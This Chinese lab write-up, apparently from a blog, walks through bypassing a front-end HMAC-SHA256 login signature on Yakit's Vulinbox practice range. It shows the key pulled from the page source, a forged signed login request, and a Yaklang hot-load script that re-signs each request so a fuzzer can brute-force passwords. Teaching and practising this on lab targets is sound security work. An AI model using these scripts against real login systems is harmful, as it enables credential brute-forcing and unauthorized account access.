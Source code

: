 
本文是高级前端加解密与验签实战的第1篇文章，本系列文章实验靶场为Yakit里自带的Vulinbox靶场，本文讲述的是绕过SHA256签名来爆破登录。


## 绕过


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005130112-183765002.png)


通过查看源代码可以看到key为



```
1234123412341234

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005133198-1662357300.png)


通过查看源代码可以看到是通过SHA256来进行签名的，他把请求体的username和password字段提取，然后进行加密。



```
username=admin&password=admin123

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005136827-1401035207.png)


使用CyberChef加密，最终得到加密值为：`fc4b936199576dd7671db23b71100b739026ca9dcb3ae78660c4ba3445d0654d`


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005139852-723382500.png)


可以看到自己计算和前端计算的一致：


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005143563-741888526.png)


修改密码，重新构造签名：



```
username=admin&password=666666
=>
26976ad249c29595c3e9e368d9c3bc772b5a27291515caddd023d69421b7ffee

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005148499-2079865334.png)


发送请求，可以看到验签成功，密码正确登陆成功，自此签名绕过成功。



```
POST /crypto/sign/hmac/sha256/verify HTTP/1.1
Host: 127.0.0.1:8787
Content-Type: application/json

{
  "signature": "26976ad249c29595c3e9e368d9c3bc772b5a27291515caddd023d69421b7ffee",
  "key": "31323334313233343132333431323334",
  "username": "admin",
  "password": "666666"
}

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005152327-1303090435.png)


## 热加载


这是我写的热加载代码，通过`beforeRequest`劫持请求包，使用`encryptData`函数进行加密，最终实现热加载自动签名功能。



```
encryptData = (packet) => {
    body = poc.GetHTTPPacketBody(packet)
    params = json.loads(body)
    //获取账号和密码
    name = params.username
    pass  = params.password
    key = "31323334313233343132333431323334"    //十六进制密钥

    //HmacSha256加密
    signText = f`username=${name}&password=${pass}`
    sign = codec.EncodeToHex(codec.HmacSha256(f`${codec.DecodeHex(key)~}`, signText))

    //构造请求体
    result = f`{"username":"${name}","password":"${pass}","signature":"${sign}","key":"${key}"}`

    return string(poc.ReplaceBody(packet, result, false))
}

//发送到服务端修改数据包
// beforeRequest = func(req){
//     return encryptData(req)
// }

//调试用
packet = <<
```

调试结果如下：
![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005207512-1712536217.png)


把`beforeRequest`取消注释，添加到Web Fuzzer模块的热加载中：


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005209904-617821989.png)


保存后发送请求，热加载成功实现自动签名功能。
![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005212881-1707760919.png)
![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005215343-226820087.png)


 本博客参考[楚门加速器](https://shexiangshi.org)。转载请注明出处！
